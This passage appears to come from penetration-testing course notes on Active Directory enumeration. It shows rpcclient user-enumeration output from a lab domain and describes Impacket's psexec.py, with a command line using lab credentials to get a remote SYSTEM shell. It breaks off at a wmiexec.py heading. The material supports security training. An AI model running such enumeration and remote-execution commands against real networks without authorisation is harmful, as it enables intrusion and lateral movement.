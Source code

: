 To enumerate all users to gather the RIDs we will use `enumdomusers`.

### Enumdomusers
```shell-session
rpcclient $> enumdomusers

user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[lab_adm] rid:[0x3e9]
user:[htb-student] rid:[0x457]
user:[avazquez] rid:[0x458]
user:[pfalcon] rid:[0x459]
user:[fanthony] rid:[0x45a]
user:[wdillard] rid:[0x45b]
user:[lbradford] rid:[0x45c]
user:[sgage] rid:[0x45d]
user:[asanchez] rid:[0x45e]
user:[dbranch] rid:[0x45f]
user:[ccruz] rid:[0x460]
user:[njohnson] rid:[0x461]
user:[mholliday] rid:[0x462]

<SNIP>  
```

## Impacket Toolkit

With Impacket we have many different ways to enumerate, interact, and exploit Windows protocols and find information we need using Python. The tool is actively maintained and has many contributors, especially when new attack technique arise.

### Psexec.py

One of the most useful tools in the Impacket suite is [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py). This tool is a clone of the Sysinternals psexec executable, but works slightly differently then the original. The tool create a remote service by uploading a randomly named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host.

#### Using psexec.py

We will need credentials for a user with local administrator privileges.

```bash
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125  
```

![[psexec-action.gif]]

### wmiexec.py
